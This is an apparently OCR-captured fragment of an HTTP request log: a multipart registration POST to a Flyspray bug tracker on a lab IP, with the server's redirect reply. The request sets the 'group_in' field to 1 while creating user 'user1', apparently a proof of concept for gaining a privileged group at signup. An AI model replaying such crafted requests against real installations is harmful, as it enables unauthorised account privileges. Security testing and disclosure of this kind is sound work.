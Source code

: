 user1
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="user\_pass"

user1
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="user\_pass2"

user1
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="real\_name"

user1
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="email\_address"

user1@no\.way
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="verify\_email\_address"

user1@no\.way
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="profile\_image"; filename=""
Content\-Type: application/octet\-stream


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="notify\_type"

0
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="time\_zone"

0
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="group\_in"

1
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457\-\-


Got redirect:
HTTP/1\.1 303 See Other
Date: Thu, 09 Apr 2020 08:28:58 GMT
Server: Apache/2\.4\.6 \(CentOS\) PHP/5\.6\.40
X\-Powered\-By: PHP/5\.6\.40
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no\-cache
Cache\-Control: no\-store, no\-cache, must\-revalidate, post\-check=0, pre\-check=0
Content\-Style\-Type: text/css
Location: [http://10.1.20.110/flyspray/](#http://10.1.20.110/flyspray/)

Content\-Length: 85
Connection: close
Content\-Type: text/html; charset=utf\-8

Redirect to: \<a href="[http://10.1.20.110/flyspray/">http://10.1.20.110/flyspray/</a>.](#http://10.1.20.110/flyspray/">http://10.1.20.110/flyspray/</a>.)
